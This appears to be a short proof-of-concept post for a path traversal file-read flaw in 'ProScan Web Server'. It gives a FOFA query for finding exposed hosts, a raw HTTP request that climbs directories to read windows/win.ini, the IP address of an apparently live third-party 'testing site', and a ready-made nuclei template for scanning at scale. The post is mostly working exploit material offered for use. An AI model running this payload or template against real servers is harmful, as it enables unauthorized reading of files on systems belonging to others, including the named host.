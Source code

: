 1. Pages and fofa
title=ProScan Web Server
![image](https://github.com/user-attachments/assets/58f1b5a0-44fe-4080-91d1-2e2f598408db)

2.POC
GET /../../../../../../../../windows/win.ini HTTP/1.1
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)
Host:

3.testing site
http://107.193.206.242:5000

![image](https://github.com/user-attachments/assets/f2a66268-77ff-4b1c-9d79-3311595804a6)

4.nuclei
id: proscan-scanner-fileread

info:
  name: proscan-scanner-fileread
  author: uknow
  severity: high
  description: proscan-scanner-fileread
  tags: yongyou,proscan
  metadata:
    fofa-qeury: title=ProScan Web Server
    veified: true
    max-request: 1

http:
  - raw:
      - |              
        GET /../../../../../../../../windows/win.ini HTTP/1.1
        User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)
        Host: 
               
    matchers:     
      - type: dsl
        name: fileread
        dsl:
          - "status_code_1 == 200 && contains(body,'for 16-bit app support') && contains(header,'application/x-msdownload')"

![image](https://github.com/user-attachments/assets/e0ef2aa1-34c9-4f34-a097-5a3f8053a4d6)
